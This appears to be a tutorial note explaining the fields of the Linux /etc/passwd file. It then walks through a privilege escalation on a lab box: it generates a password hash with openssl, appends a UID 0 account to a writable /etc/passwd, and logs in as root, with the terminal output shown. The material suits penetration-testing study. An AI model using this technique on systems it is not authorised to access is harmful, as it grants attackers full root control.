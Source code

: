 The /etc/passwd file contains one entry per line for each user (user account) of the system. All fields are separated by a colon : symbol. Total of seven fields as follows. Generally, /etc/passwd file entry looks as follows:

    test:x:0:0:root:/root:/bin/bash

[as divided by colon (:)]

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.

2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".

3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.

4. Group ID (GID): The primary group ID (stored in /etc/group file)

5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.

6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /

7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

**How to exploit a writable /etc/passwd**

It's simple really, if we have a writable /etc/passwd file, we can write a new line entry according to the above formula and create a new user! We add the password hash of our choice, and set the UID, GID and shell to root. Allowing us to log in as our own root user!





```sh
user7@polobox:/home/user3$ openssl passwd -1 -salt root2 0321
$1$root2$UC/myc/qlO5zcYTS8Ghk41

vim /etc/passwd
--- add following to the last line ---
root2:$1$root2$UC/myc/qlO5zcYTS8Ghk41:0:0:root:/root:/bin/bash
---

#login in as root2 
#input the password [0321]
user7@polobox:/home/user3$ su root2
Password:
Welcome to Linux Lite 4.4

You are running in superuser mode, be very careful.

Sunday 10 October 2021, 01:28:07
Memory Usage: 343/1991MB (17.23%)
Disk Usage: 6/217GB (3%)

# check its id is root group
root@polobox:/home/user3# id
uid=0(root) gid=0(root) groups=0(root)
```
